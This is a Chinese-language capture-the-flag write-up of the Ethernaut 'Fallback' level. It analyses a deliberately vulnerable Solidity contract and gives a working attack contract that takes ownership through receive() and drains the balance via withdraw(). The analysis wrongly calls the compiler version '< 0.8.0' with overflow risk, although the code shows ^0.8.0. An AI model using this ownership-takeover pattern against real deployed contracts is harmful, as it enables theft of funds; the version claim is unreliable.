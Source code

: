 # Fallback

## 题目

通关要求：获得这个合约的所有权(成为owner)，并且将这个合约的余额减少为0。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
  	//console是我自己加的，原题没有，只是为了方便调试，对题目没任何影响
 	console.log("(withdraw)msg.sender is:",msg.sender);
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 分析

首先看编译器，使用的编译器版本是`< 0.8.0`. 这意味着合约可能出现整数溢出漏洞。

然后重点的方法是`withdraw`，这个方法会将合约中的余额转到owner账户当中。但是这个方法有onlyOwner修饰，因此，我们需要将owner更改为我们的地址，才可以调用这个方法，从而达到通关目的。

如何将owner更改为我们的地址呢？有两个可能性：(1)contribute函数(2)receive函数

### contribute()

```solidity
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

这个方法允许调用者发送一定的钱到合约，但是每次调用只可以发少于0.001ETH，这个钱会被存合约记录。当记录的钱数大于owner的时候，就会发生owner的转化。简单来说，合约的owner是在本合约中最有钱的人。

但是我们可以通过发送非常多钱从而成为owner吗？这是可以的，最初的owner拥有1000ETH，积累超过1000ETH就可以了。但是累计超过1000ETH，那至少调用1000001次contribute方法才行，我认为这个关卡的目的不是让我们通过这个方法来更改owner。那我们看看有没有其他方法。

### receive()

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

我们知道，当我们和一个合约交互，向合约发送以太币并且没传输数据data的时候，receive就会被调用。

我们分析知道，当满足：向合约发送的以太币大于0，并且调用者在合约中的记录钱数大于0，就可以发生owner的转化，思路清晰了。

## 攻击

1. 调用contribute方法，向合约发送1Wei
2. 直接向合约transfer 1Wei
3. 调用withdraw取钱

```solidity
// SPDX-License-Identifier: MIT
import "hardhat/console.sol";//为了在控制台打印输出
pragma solidity ^0.8.0;

contract FallbackAttack{
    address payable public _fallback;//用来存放题目的地址

    constructor(address payable _address) payable public {
        _fallback = _address;//题目地址传入
    }

    function attack1() public payable {
        //msg.value设置为10Wei
        _fallback.call{value: msg.value}(abi.encodeWithSignature("contribute()"));
    }
    function attack2() public payable {
        //msg.value设置为1Wei
        _fallback.call{value: 1}("");
    }

    function attack3() public payable {
    	//打印调试
    	console.log("(attack4)msg.sender is:",msg.sender); 
    	//提款
        _fallback.call(abi.encodeWithSignature("withdraw()"));          
    }

    receive() external payable {
    	//一定要有receive或者回调函数！
    	//否则withdraw提款的时候无法成功！
    	//假如没这个函数，attack3虽然调用成功，但是却不会到账！
    }
}
```

## 复现

部署合约，将被攻击者Fallback作为参数输入FallbackAttack中，部署的时候给FallbackAttack 10Wei，因为发起攻击的时候需要一点钱

![image-20221211172040057](01.Fallback/image-20221211172040057.png)

![image-20221211172146414](01.Fallback/image-20221211172146414.png)

attack1执行：调用contribute方法，向合约发送1Wei

![image-20221211172245477](01.Fallback/image-20221211172245477.png)

![image-20221211172326321](01.Fallback/image-20221211172326321.png)

attack2执行：直接向合约transfer 1Wei

![image-20221211172642376](01.Fallback/image-20221211172642376.png)

attack3执行：调用withdraw取钱

![image-20221211172851753](01.Fallback/image-20221211172851753.png)

## 做题

获取题目地址：`0x8341FA6Deb382b79b441deE6b920AC1470348A33`

![image-20221221225711975](01.Fallback/image-20221221225711975.png)

部署：将题目地址放到At Address框中

![image-20221221225752823](01.Fallback/image-20221221225752823.png)

设置msg.value=1Wei，调用contribute方法

![image-20221221225850846](01.Fallback/image-20221221225850846.png)

设置msg.value=1, 调用Transact底层调用（目的是触发receive函数）

![image-20221221230033879](01.Fallback/image-20221221230033879.png)

查看owner，已经成功被我们修改。然后调用withdraw函数取钱。

![image-20221221230310212](01.Fallback/image-20221221230310212.png)

在靶场点击Submit instrance提交题目

![image-20221221230332592](01.Fallback/image-20221221230332592.png)

成功！

![image-20221221230349143](01.Fallback/image-20221221230349143.png)



[原题目网站](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)与[引用资料](https://stermi.medium.com/ethernaut-challenge-1-solution-fallback-23ee62909b39)









